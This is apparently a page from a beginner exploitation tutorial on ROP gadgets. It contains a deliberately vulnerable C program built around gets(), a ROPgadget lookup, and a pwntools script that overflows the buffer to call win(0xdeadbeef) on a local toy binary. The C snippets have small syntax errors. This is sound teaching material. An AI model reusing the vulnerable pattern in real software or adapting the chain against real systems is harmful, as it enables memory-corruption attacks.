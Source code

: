 ```yaml
---
title: ROP Gadgets
date: 0005-01-01T00:00:08Z
draft: false
description: Pwn for Fun and Profit is a progressive tutorial series that aims to be noob-friendly enough for anyone to dive in, and equip them with the skills to come out with substantial knowledge on The Art of Pwn.
toc: false
---
```


Remember in the previous chapter, we exploited this program;

```c
// gcc -no-pie win.c -o win
#include <stdio.h>

int win() {
  printf("you can't call me ;)")
}

int vuln() {
    char name[10];

    gets(&name);
    return 0;
}

int main() {
    vuln();
    return 0;
}

```

What if now we tweak it a little bit to add arguments to `win()`;

```c
// gcc -no-pie win.c -o win
#include <stdio.h>

int win(int argument) {

  if (argument == 0xdeadbeef) {
    printf("You Win!");
  }
  else {
    printf("You called me but you failed the check. You Lose!")
  }
  exit(0);
}

int vuln() {
    char name[10];

    gets(&name);
    return 0;
}

int main() {
    vuln();
    return 0;
}

```

In order to win, we have to call `win(0xdeadbeef)`. In fact, from our chapter on [How does Assembly work and introduction to the Stack.](/pwn/innerworkings/how_does_assembly_work), we know that we want to put `0xdeadbeef` into `rdi` since it's the first argument of the function.

However, how do we do that?

This is where ROP gadgets come in;

> ROP Gadgets are small snippets of assembly in the binary, that we can use to control the program

We will use the following [ROP Gadget Tool](https://github.com/JonathanSalwan/ROPgadget) to find ROP gadgets for us, in order to help us `win()`.

```
➜ ROPgadget --binary win | grep 'pop rdi ; ret'
0x000000000040121b : pop rdi ; ret
```

Using our ROP Gadget tool, we are able to find a gadget `pop rdi ; ret`, which allows us to pop any value of our choice into `rdi`, and then return. Since we also control our return address, we can decide where it returns. Hence we are able to create a chain of many instructions and returns.

With our `pop rdi` gadget, we can pop `0xdeadbeef` into `rdi` and call `win`, thus printing `You win!`.

We can craft our script.

## Exploit Script

```py

from pwn import *

p = process('./win')

poprdi = 0x40121b
win = 0x401142

payload = "A" * 18 # buffer 10 (name) + 8 (saved rbp)
payload += p64(poprdi) # pop rdi ; ret
payload += p64(0xdeadbeef) # argument
payload += p64(win) # win function

p.sendline(payload) # send payload as input
p.interactive() # manually control process
```

---

ROP gadgets are **much much more** than just popping into registers, and sometimes challenges require you to make the most out of very unique gadgets that you have to use in order to successfully pwn the binary.

Explore on!

<br><br>

---

<div style="text-align: right"> <a href="/pwn/rop/ret2libc1">Next Page: Return 2 Libc - The Concept</a> </div>

